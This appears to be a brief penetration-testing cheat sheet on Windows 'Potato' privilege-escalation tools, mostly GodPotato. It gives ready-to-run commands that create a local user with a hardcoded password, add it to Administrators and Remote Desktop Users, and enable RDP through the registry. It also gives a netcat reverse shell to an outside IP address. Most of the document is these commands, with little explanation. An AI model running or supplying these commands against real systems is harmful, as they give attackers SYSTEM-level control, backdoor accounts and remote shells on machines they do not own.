 # Decoder.cloud

# Juicy Potato

# Rotten Potato

# GodPotato
Check the .NET version before to install the correct one:
```
.\GodPotato-NET4.exe -cmd "net user hajiahmad P@ssw0rd /add"
.\GodPotato-NET4.exe -cmd "net localgroup administrators hajiahmad /add"
.\GodPotato-NET4.exe -cmd "reg add 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0 /f"
.\GodPotato-NET4.exe -cmd "NET LOCALGROUP \"Remote Desktop Users\" hajiahmad /ADD"
```

```
.\GodPotato-NET4.exe -cmd ".\nc64.exe 192.168.45.154 80  -e c:\windows\system32\cmd.exe"
```
